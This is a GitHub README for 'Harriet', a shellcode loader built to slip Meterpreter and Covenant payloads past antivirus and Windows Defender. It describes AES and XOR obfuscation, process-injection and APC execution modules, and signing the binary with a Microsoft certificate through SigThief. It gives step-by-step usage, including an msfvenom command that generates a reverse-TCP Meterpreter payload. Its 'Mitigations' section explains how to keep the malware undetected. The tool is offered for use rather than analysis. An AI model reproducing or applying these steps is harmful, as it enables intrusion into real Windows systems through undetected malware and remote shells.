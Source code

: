 ![Screen Shot 2022-10-02 at 10 29 43 AM](https://user-images.githubusercontent.com/76174163/193459711-647f63a7-b7e6-49b6-9659-f63cebdbeece.png)


**Meet Harriet!**

Harriet was inspired by the Charlotte C++ shellcode loader. This tool uses AES encryption and function/variable obfuscation to get around AV and Windows Defender. Most of the code was taken from the Sektor 7 Malware Development Essentials course. All credit goes to reenz0h and @Sektor7net. I wrote this mainly as a way to get a quick undetected executable for testing and to not have to switch over to a Windows VM every five seconds for compiling. 

![Screen Shot 2022-10-17 at 12 14 33 PM](https://user-images.githubusercontent.com/76174163/196229183-c96e9a38-8466-4ebd-81ab-35934877d559.png)

The payload framework is very effective when paired with my Covenant Randomizer script.

![Screen Shot 2022-10-17 at 12 15 10 PM](https://user-images.githubusercontent.com/76174163/196229270-49bb9d83-a18d-4cb6-b1b7-b798fca19d4c.png)

I was able to bypass Defender with Covenant with no problems.

![Screen Shot 2022-10-17 at 11 59 31 AM](https://user-images.githubusercontent.com/76174163/196239034-54866187-c461-4735-be81-9821c3a1e9a0.png)

I was also able to bypass Defender with a Meterpreter payload. This might not be as effective since Meterpreter is signatured so heavily. Your results will vary without modifying your Meterpreter payload's template inside Metasploit. Going with lesser used payloads will probably yield good results. 

**Modules**

![Screen Shot 2022-10-17 at 12 12 15 PM](https://user-images.githubusercontent.com/76174163/196239966-8d41b19b-6d66-4a80-a72c-4d1554197702.png)

There are four modules currently. As of this post, all of them bypass AV/Defender. 
 
AES Encrypted payload

AES Encrypted payload with process injection

QueueUserAPC shellcode execution

ThreadPoolWait shellcode execution. 

All of the modules use XOR encryption for strings and function obfuscation and AES encryption for payload exection. Once the payload is compiled, the script uses SigThief to sign the binary with a Microsoft certificate. 

**Usage:** 

Clone The Repo

**git clone https://github.com/assume-breach/Home-Grown-Red-Team.git**

Run The Setup Script

**cd Home-Grown-Red-Team/Harriet/
bash setup.sh**

Create Your Payload

**msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f raw > msfr.bin**

Run the Script

**bash Harriet.sh **

Fill In The Values As Prompted

**Mitigations**

There are a few issues that you should be aware of. The first is that this will be detected at some point. Eventually, it will wind up on VT or the AV engines will signature it. There are mitigations that you can take to customize it. The first is to change the Virt_Alloc variable in all of the scripts. The second is to change all of the values in the randomization scripts. Adding various sleep functions within the scripts can also keep the script from being signatured. The binary that Harriet uses to sign your malware is a Microsoft Office 365 updater. You can switch this out with a different binary and replace the path for your new exe in the scripts. This can help with keeping your malware undetected. 

**Enjoy and DON'T UPLOAD TO Virus Total!!!!!**
